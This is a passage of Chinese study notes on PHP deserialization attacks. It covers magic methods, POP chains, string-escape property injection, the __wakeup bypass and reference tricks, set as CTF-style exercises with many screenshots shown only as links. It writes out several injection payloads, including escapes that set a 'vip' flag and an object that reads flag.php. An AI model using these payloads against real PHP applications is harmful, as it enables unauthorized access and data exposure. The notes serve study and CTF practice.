

---


### __isset()

**触发时机：对不可访问或不存在的属性使用isset()或empty()时，__isset()会被调用**

参数：传参$arg1

返回值：不存在或不可访问的成员属性的名称



---

### __unset()

**触发时机：对不可访问属性使用unset()时**

参数：传参$arg1

返回值：不存在的成员属性的名称



---

### __clone()

触发时机：当使用clone关键字拷贝完成一个对象后，新对象会自动调用定义的魔术方法__clone()



## 魔术方法总结





# pop链

在反序列化中，我们能控制的数据就是对象中的属性值（成员变量），所以在PHP反序列化中有一种漏洞利用方法叫“面向属性编程”，即POP

**pop链就是利用魔术方法在里面进行多次跳转然后获取敏感数据的一种payload**

## POC编写

POC (全称: Proof of concept) 中文译作概念验证在安全界可以理解成漏洞验证程序。Poc 是一段不完整的程序，仅仅是为了证明提出者的观点的一段代码

编写一段不完整的程序，获取所需要的序列化字符串

反推法：从得到flag开始反推过程，推完后再正推构造pop链



# 字符串逃逸基础

**反序列化分隔符**

在前面的字符串没有问题的情况下，;}是反序列化结束符，后面的字符串不影响正常的反序列化



**特性：**

1. 成员属性数量一致
2. 成员名称长度一致
3. 内容长度一致
4. 类中如果有我们构造的序列化字符串中没有的成员属性，会根据类自动补全

**属性逃逸**

一般在数据先经过一次serialize再经过unserialize，在这个中阿金反序列化的字符串变多或者变少的时候才有可能存在反序列化属性逃逸。

## 字符串减少逃逸

反序列化字符串减少逃逸：多逃逸出一个成员属性

**第一个字符串减少，吃掉有效代码，在第二个字符串构造代码**





## 字符串增多逃逸

反序列化字符串增多逃逸：构造出一个逃逸成员属性

**第一个字符串增多，吐出多余代码，把多余位代码构造成逃逸的成员属性**



构造思路：



# 字符串逃逸例题

## 字符串增多逃逸例题



思路：



就是先构造我们要逃逸出来的字符串，然后计算字符串的长度，长度即为字符串增多的次数

比如：这里字符串有29个字符长度

```
";s:4"pass";s:8:"escaping";}
```

**所以构造29个'php'**



payload:

```
?param=phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}
```

## 字符串减少逃逸例题

**题目：**



**构造思路：**

**''建议吃掉，$pass的值benben可控**



我们每次构造的时候都可以用`";`开头，这样如果多的话直接在前面补1即可

**payload构造：**



```
?user=flagflagflagflagflagflagflagflagflagflag&pass=1";s:4:"pass";s:6:"benben";s:3:"vip";b:1;}


解析：
pass=1";xxxx这里加了个1因为要多吃一个，我们前面生成的";s:4"pass";s:xx:"只有19位，加个1刚好20位，而这里的";可以理解为闭合，因为前面的双引号也被吃了
```

# wakeup绕过

**漏洞产生的原因：如果存在wakeup方法，调用unserialize()前则先调用weakup方法，但是序列化字符串中表示对象属性个数的值大于真实的属性个数时，会跳过__weakup()执行。**

**有版本限制**

例题：



绕过思路：



payload:

```
O:+6:"secret":2:{s:4:"file";s:8:"flag.php";}
需要先url编码

?cmd=O%3A%2B6%3A%22secret%22%3A2%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3B%7D
```

# 引用的利用方式

**&符号的利用**

感觉有点像c里的取地址符，指针

比如：

```
$a = new test();
$a->enter = &$a->secret;
```

这里就相当于a对象中的成员属性enter的值引用了a对象中成员属性secret的值，所以当secret的值改变的时候，enter依然与enter相同

例题：

